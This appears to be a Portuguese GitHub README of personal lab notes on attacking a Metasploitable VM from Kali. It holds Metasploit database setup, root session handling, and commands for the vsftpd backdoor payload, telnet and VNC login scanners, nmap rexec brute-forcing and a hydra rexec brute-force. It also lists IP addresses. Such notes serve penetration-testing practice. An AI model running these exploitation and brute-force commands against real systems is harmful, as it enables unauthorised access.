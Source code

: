  Conectando no Bd (Parte mais chata)

sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
---- dentro do MSFCONSOLE
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
------------------------------

![image](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)

![image](https://github.com/user-attachments/assets/a7e1a171-b54a-4cfa-b625-edcb3abb0ada)

![image](https://github.com/user-attachments/assets/5f82ab13-8c53-4ac1-bfc4-88fe7959647e)

![image](https://github.com/user-attachments/assets/967ec4b6-3d7a-4357-9a10-85016a8a83cc)

Depois de conseguir acesso como root usando o payload de:
CRTL + Z ;
Y ;

sessions
para acessar a sessao ;
sessions -i 2 ;

![image](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)


```bash
meu ip: 177.67.136.88
ip kali: 172.24.49.254
ip meta : 192.168.100.102

PAYLOAD cmd/unix/interact = vsft 3.2.4
PAYLOAD auxiliary/scanner/telnet/telnet_login = telnet 23

PAYLOAD scanner/vnc/vnc_login = VNC  ~~~ depois entrar com vncviewer 192.168.100.102:5900 :password

nmap -p 512 --script rexec-brute -v 192.168.100.102 ~~~~ pesquisar rexec_login e usar uns dos logins

┌──(luan㉿192.168.100.102)-[~/Desktop/porta_512_logins]
└─$ hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt -P /home/luan/Desktop/porta_512_logins/passwd_512.txt -vV 192.168.100.102 rexec

``` 
